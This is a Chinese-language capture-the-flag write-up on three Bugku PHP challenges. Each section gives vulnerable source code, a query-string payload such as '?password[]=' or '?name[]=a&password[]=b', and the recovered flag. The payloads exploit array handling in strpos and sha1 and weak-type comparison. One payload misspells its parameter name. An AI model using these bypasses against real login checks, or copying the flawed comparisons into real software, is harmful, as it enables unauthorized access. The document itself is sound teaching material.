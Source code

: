 ## 数组返回NULL绕过
```php
<?php
$flag = "flag";
if (isset ($_GET['password'])){
if (ereg ("^[a-zA-Z0-9]+$", $_GET['password']) === FALSE)
    echo 'You password must be alphanumeric';
else if (strpos ($_GET['password'], '--') !== FALSE)
    die('Flag: ' . $flag);
else
    echo 'Invalid password';
    }
?>
```
- strpos()函数不能处理数组的漏洞构造
- payload`?password[]=`
- flag{ctf-bugku-ad-2131212}

## 弱类型整数大小比较绕过
```php
$temp = $_GET['password'];
is_numeric($temp)?die("no numeric"):NULL;
if($temp>1336){
echo $flag;
```
- is_numeric — 检测变量是否为数字或数字字符串;bool is_numeric( mixed $var);如果 var 是数字和数字字符串则返回 TRUE，否则返回 FALSE。
- payload`?pwssword=1337a`
- flag{bugku_null_numeric}

## sha()函数比较绕过
```php
<?php
$flag = "flag";
if (isset($_GET['name']) and isset($_GET['password']))
{
    var_dump($_GET['name']);
    echo "
    ";
    var_dump($_GET['password']);
    var_dump(sha1($_GET['name']));
    var_dump(sha1($_GET['password']));
    if ($_GET['name'] == $_GET['password'])
        echo '
        Your password can not be your name!
        ';
    else if (sha1($_GET['name']) === sha1($_GET['password']))
    die('Flag: '.$flag);
    else
    echo '

    Invalid password.
    ';
    }
else
    echo '
    Login first!
    ';
?>
```
- 利用sha1函数不能处理数组进行构造payload
- payload`?name[]=a&password[]=b`
- flag{bugku--daimasj-a2}
